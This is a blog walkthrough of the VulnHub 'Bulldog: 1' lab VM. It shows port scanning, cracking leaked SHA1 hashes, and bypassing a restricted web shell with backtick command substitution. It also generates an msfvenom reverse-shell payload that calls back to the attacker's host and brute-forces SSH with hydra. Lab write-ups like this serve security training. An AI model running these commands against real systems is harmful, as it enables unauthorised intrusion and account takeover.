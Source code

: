 ```yaml
---
layout: post
last_modified_at: 2018-06-07 17:05:01 +0000
title: "Bulldog: 1 Walkthrough"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldog-1-walkthrough.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries has its website defaced and gets owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :smile:

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looks like in my browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

There's no clue in the HTML source of the landing page as well as its internal link, on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to look for directories and/or files.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll appear in the `nmap` scan. Now, I've two more directories — `admin` and `dev` to explore.

### Under Development

This page `/dev` contains interesting information. There's a link to `/dev/shell`, I suppose, a web shell. Under the hood of the HTML source, there are SHA1 password-hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and send them to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is a must, to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

I have a session with the site. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. The web shell appears to restrict itself to certain commands.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Although a low-privilege shell appears, let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

I find two users — `django` and `bulldogadmin`, during enumeration. They can `sudo` as `root`. It's a pity I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Notice `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seems like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past the "`H`", you see "`SUPERultimatePASSWORDyouCANTget`". I'll have my work cut short if this is the password belonging to any of the users, since they can `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

To an attacker, a shell is a shell is a shell. :imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
